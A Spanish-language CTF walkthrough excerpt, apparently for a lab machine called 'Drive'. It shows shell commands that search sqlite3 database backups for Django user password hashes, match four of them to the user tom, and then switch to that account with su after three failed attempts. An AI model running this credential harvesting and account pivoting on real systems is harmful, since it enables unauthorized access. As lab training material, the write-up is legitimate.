 ~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ find \ -name *.sqlite3 2>/dev/null | while read db; do sqlite3 $db --line 'select * from accounts_customuser'; done | grep 'sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004' -A 3
    password = sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
  last_login = 2022-12-24 13:17:45
is_superuser = 0
    username = tomHands
                                                                                                                    
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ find \ -name *.sqlite3 2>/dev/null | while read db; do sqlite3 $db --line 'select * from accounts_customuser'; done | grep 'sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141' -A 3
    password = sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
  last_login = 2022-12-26 06:02:42.401095
is_superuser = 0
    username = tomHands
                                                                                                                    
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ find \ -name *.sqlite3 2>/dev/null | while read db; do sqlite3 $db --line 'select * from accounts_customuser'; done | grep 'sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93' -A 3
    password = sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
  last_login = 2022-12-26 06:03:57.371771
is_superuser = 0
    username = tomHands
                                                                                                                    
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ find \ -name *.sqlite3 2>/dev/null | while read db; do sqlite3 $db --line 'select * from accounts_customuser'; done | grep 'sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a' -A 3
    password = sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
  last_login = 2022-12-24 13:17:45
is_superuser = 0
    username = tomHands
~~~

- Entonces, probaremos las 4:

~~~bash
martin@drive:~$ su tom
Password: 
su: Authentication failure
martin@drive:~$ su tom
Password: 
su: Authentication failure
martin@drive:~$ su tom
Password: 
su: Authentication failure
martin@drive:~$ su tom
Password: 
tom@drive:/home/martin$ 
~~~
